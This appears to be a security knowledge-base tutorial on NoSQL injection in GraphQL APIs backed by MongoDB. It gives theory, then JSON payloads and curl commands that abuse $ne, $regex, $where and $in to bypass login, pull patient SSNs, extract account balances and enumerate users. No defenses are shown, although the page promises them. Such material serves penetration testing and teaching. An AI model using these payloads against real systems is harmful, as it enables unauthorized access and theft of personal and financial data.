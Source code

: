 ```yaml
---
title: Mastering NoSQL Injection in GraphQL and MongoDB
description: Explore NoSQL injection techniques to manipulate GraphQL API queries
  backed by MongoDB. Learn attack methods and defenses.
keywords:
- NoSQL injection
- GraphQL
- MongoDB
- $regex injection
- authentication bypass
- $where injection
- sensitive data extraction
---
```


# NoSQL Injection

## Context

NoSQL injection allows attackers to manipulate NoSQL queries through unsanitized user input in GraphQL APIs, particularly those backed by MongoDB. This technique exploits input validation weaknesses to inject NoSQL operators and access sensitive data or bypass authentication. This article assumes familiarity with NoSQL databases, GraphQL queries, MongoDB’s query language, and prior knowledge of GraphQL injection techniques.

## Theory

### NoSQL Injection Fundamentals in GraphQL Context

NoSQL injection involves the manipulation of NoSQL queries by exploiting input fields that dynamically construct these queries. In the context of GraphQL applications, the resolvers responsible for executing queries may directly incorporate user-provided data into NoSQL queries without proper validation. This vulnerability model relies on input that the server does not properly sanitize or validate, allowing attackers to inject operators like `$ne`, `$regex`, or `$where`, which substantially alter the intended query behavior.

### MongoDB Operator Injection Techniques

MongoDB supports various operators which, when not properly handled, can be used to subvert application logic. Operators such as `$ne` (not equal), `$in` (in array), `$regex` (pattern matching), and `$where` (JavaScript execution) come into play. An attack typically involves injecting these operators as values in input fields to bypass authentication checks or extract sensitive data. For example, injecting `$ne:null` could subvert standard equality logic checks, facilitating unauthorized access or data retrieval.

### NoSQL Injection via GraphQL APIs

In a GraphQL context, attackers craft queries with malicious input that, through the resolver, manipulates backend NoSQL queries. The data flow of such an attack is straightforward: user input moves to the GraphQL API, through the resolver, and down to the MongoDB, which then returns data back through the same pathway to the user. A successful injection manipulates this flow to unfairly access or alter data.

```mermaid
graph TD;
    UserInput-->GraphQLAPI;
    GraphQLAPI-->Resolver;
    Resolver-->MongoDB;
    MongoDB-->Resolver;
    Resolver-->GraphQLAPI;
    GraphQLAPI-->UserInput;
```

## Practice

### Authentication Bypass via $ne Operator Injection

- **Payload:** Inject the following into form fields to bypass authentication checks by subverting expected equality logic with `$ne`.
  ```json
  {
      "username": {"$ne": null},
      "password": {"$ne": null}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { login(username: \"{\"\$ne\":null}\", password: \"{\"\$ne\":null}\") { token } }"}'
  ```

- **Outcome:** This action will enable access without valid credentials by making the check always true, thereby bypassing authentication logic.

### Sensitive Data Extraction via $regex Injection

- **Payload:** Use this payload to extract data like SSNs by matching all possible entries with a $regex pattern.
  ```json
  {
      "ssn": {"$regex": ".*"}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { patients(filter: { ssn: \"{\\\"$regex\\\":\\\".*\\\"}\" }) { name ssn } }"}'
  ```

- **Outcome:** Gain access to extract sensitive patient SSNs, matching any entry and circumventing intended filters.

### Arbitrary Query Manipulation via $where Injection

- **Payload:** Filter records by injecting JavaScript logic with the $where operator to selectively extract information based on conditions like balance.
  ```json
  {
      "$where": "this.balance > 10000"
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { accounts(filter: \"{\\\"$where\\\":\\\"this.balance > 10000\\\"}\") { owner balance } }"}'
  ```

- **Outcome:** Access restricted financial data by executing JavaScript logic within MongoDB, targeting records with high balances.

### Bulk Data Access via $in Operator Injection

- **Payload:** Use the $in operator to match multiple usernames, fetching bulk data.
  ```json
  {
      "username": {"$in": [""]}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { users(filter: { username: \"{\\\"$in\\\":[\\\"\\\"]}\" }) { username email } }"}'
  ```

- **Outcome:** Enumerate all user accounts by exploiting the username filter, accessing extensive sensitive data lists.

## Tools

- **curl**
- **Burp Suite**
- **Postman** 

Each of these tools facilitates interaction and testing against web services, enabling the crafting and dispatch of GraphQL queries to exploit NoSQL injection vulnerabilities effectively.